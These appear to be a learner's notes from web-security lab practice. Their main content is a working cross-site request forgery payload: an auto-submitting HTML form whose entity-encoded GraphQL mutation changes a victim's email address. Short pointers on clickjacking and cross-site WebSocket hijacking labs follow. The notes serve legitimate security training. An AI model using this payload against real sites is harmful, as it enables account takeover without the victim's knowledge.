 **Performing CSRF exploits over GraphQL**

```
    <form action="https://{lab}/graphql/v1" method="POST">
      <input type="hidden" name="query" value="mutation&#32;changeEmail&#40;&#36;input&#58;&#32;ChangeEmailInput&#33;&#41;&#123;changeEmail&#40;input&#58;&#32;&#36;input&#41;&#123;email&#125;&#125;" />
      <input type="hidden" name="operationName" value="changeEmail" />
      <input type="hidden" name="variables" value="&#123;&quot;input&quot;&#58;&#123;&quot;email&quot;&#58;&quot;test2&#64;test5&#46;com&quot;&#125;&#125;" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
```

**Clickjacking with a frame buster script**
- Clickbandit -> allow forms



## Return to these labs
- SameSite Strict bypass via sibling domain
  - Uses cross-site WebSocket hijacking
- Rest of the clickjacking labs


## Fix in notes
- GraphQL - Github markdown issue with double curly braces